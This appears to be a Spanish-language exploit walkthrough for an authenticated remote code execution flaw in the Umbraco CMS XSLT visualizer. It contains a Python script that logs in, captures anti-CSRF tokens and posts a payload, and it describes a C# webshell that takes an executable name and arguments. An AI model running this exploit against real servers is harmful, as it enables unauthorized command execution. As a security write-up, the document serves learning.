 ```python
# Step 1 - Get Main page
s = requests.session()
url_main =host+"/umbraco/";
r1 = s.get(url_main);
print_dict(r1.cookies);

# Step 2 - Process Login
url_login = host+"/umbraco/backoffice/UmbracoApi/Authentication/PostLogin";
loginfo = {"username":login,"password":password};
r2 = s.post(url_login,json=loginfo);

# Step 3 - Go to vulnerable web page
url_xslt = host+"/umbraco/developer/Xslt/xsltVisualize.aspx";
r3 = s.get(url_xslt);

soup = BeautifulSoup(r3.text, 'html.parser');
VIEWSTATE = soup.find(id="__VIEWSTATE")['value'];
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value'];
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN'];
headers = {'UMB-XSRF-TOKEN':UMBXSRFTOKEN};
data = {"__EVENTTARGET":"","__EVENTARGUMENT":"","__VIEWSTATE":VIEWSTATE,"__VIEWSTATEGENERATOR":VIEWSTATEGENERATOR,"ctl00$body$xsltSelection":payload,"ctl00$body$contentPicker$ContentIdValue":"","ctl00$body$visualizeDo":"Visualize+XSLT"};

# Step 4 - Launch the attack
r4 = s.post(url_xslt,data=data,headers=headers);
print r4.text
print("End");
```

### Exploit

Analizando el payload original que tiene el exploit, vemos que realiza la ejecución directa de **calc.exe** mediante el llamado de funcionalidades en **C#**, todo esto, embebido en la estructura **XSLT**. Entrando más en detalle con el exploit vemos lo siguiente: 

- Crea una sesión con requests (librería de Python) y realiza 4 peticiones al servidor, en este orden:
    1. <span style="color:red">[GET]</span> Visita la página principal para validar disponibilidad del host.
    2. <span style="color:green">[POST]</span> Realiza el proceso de login con las credenciales proporcionadas.
    3. <span style="color:red">[GET]</span> Visita directamente la funcionalidad vulnerable, para capturar las cookies y los datos para saltar el **anti CSRF**: /umbraco/developer/Xslt/xsltVisualize.aspx 
    4. <span style="color:green">[POST]</span> Por último, con los datos recopilados realiza la petición de explotación, la cual incluye el payload en el parámetro: **ctl00$body$xsltSelection** todo lo demás, viene de la petición anterior.

- El payload consiste en una webshell básica en C#, la cual puede retornar un valor visual conforme al comando ingresado, y depende de 2 valores: 
    1. **FileName** => Este será el ejecutable a llamar por sistema operativo
    2. **CMD** => Estos serán los argumentos pasados al ejecutable seleccionado. 
